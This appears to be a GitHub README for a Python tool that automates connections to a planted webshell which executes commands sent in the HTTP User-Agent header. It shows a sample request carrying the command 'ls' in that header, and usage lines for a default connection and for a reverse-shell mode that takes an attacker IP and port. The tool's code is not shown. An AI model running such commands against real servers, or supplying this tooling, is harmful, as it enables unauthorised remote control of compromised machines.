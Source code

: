 This tool was created for automate process of make connections to  webshell by header

for example, when there is a page webshell.php and the Header <b>User-Agent</b> is accepting 
code execution in the server 

and you can execute commands as in the example:

```HTTP
GET /webshell.php HTTP/1.1
User-Agent: ls 
Host: example.com 
Accept-Language: en-us 
Accept-Encoding: gzip, deflate 
Connection: Keep-Alive 
```



# How to use

<b>default connection:</b>

```bash
python3 connect.py [webpage] [Argument]
```

<b>Reverse Shell connection:</b>

```bash
python3 connect.py [webpage] [Argument] [reverse_shell_ip] [reverse_shell_port]
```
